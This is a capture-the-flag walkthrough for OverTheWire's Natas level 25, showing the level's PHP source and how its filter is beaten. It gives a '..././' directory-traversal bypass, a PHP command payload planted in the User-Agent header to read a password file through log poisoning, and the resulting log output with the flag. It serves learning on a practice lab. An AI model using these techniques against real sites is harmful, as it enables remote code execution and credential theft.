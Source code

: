 `Link`: `https://overthewire.org/wargames/natas/natas25.html`

## [𝐖𝐚𝐥𝐤𝐭𝐡𝐫𝐨𝐮𝐠𝐡] ~ 𝐍𝐚𝐭𝐚𝐬 𝐋𝐞𝐯𝐞𝐥 𝟐𝟒 - 𝐋𝐞𝐯𝐞𝐥 𝟐𝟓
## 𝐆𝐢𝐯𝐞𝐧

- Username: natas25
- URL:      `http://natas25.natas.labs.overthewire.org`

## 𝐒𝐨𝐥𝐮𝐭𝐢𝐨𝐧
- Visit:      `http://natas25.natas.labs.overthewire.org`
- `view source`

```
<?php
    // cheers and <3 to malvina
    // - morla

    function setLanguage(){
        /* language setup */
        if(array_key_exists("lang",$_REQUEST))
            if(safeinclude("language/" . $_REQUEST["lang"] ))
                return 1;
        safeinclude("language/en"); 
    }
    
    function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
        // dont let ppl steal our passwords
        if(strstr($filename,"natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
        // add more checks...

        if (file_exists($filename)) { 
            include($filename);
            return 1;
        }
        return 0;
    }
    
    function listFiles($path){
        $listoffiles=array();
        if ($handle = opendir($path))
            while (false !== ($file = readdir($handle)))
                if ($file != "." && $file != "..")
                    $listoffiles[]=$file;
        
        closedir($handle);
        return $listoffiles;
    } 
    
    function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
?>

```

- `?lang=../..././/logs/natas25_pnif92ngghldgnvqj04scd05v2.log`
- `User-Agent: <?php system('cat /etc/natas_webpass/natas26');?>`
![image](https://user-images.githubusercontent.com/68887544/150163394-8ce7c650-b5eb-4ed9-89ae-f5d72808d714.png)

```

[19.01.2022 10::24:52] Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0 "Directory traversal attempt! fixing request."
[19.01.2022 10::25:14] Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0 "Directory traversal attempt! fixing request."
[19.01.2022 10::25:48] Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0 "Directory traversal attempt! fixing request."
[19.01.2022 10::26:56] Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0 "Directory traversal attempt! fixing request."
[19.01.2022 10::29:02] oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
 "Directory traversal attempt! fixing request."
```
- `[19.01.2022 10::29:02] oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T`


## 𝐋𝐞𝐚𝐫𝐧𝐢𝐧𝐠

- LFI to RCE
- `../` replaced with `""` bypass using `..././`


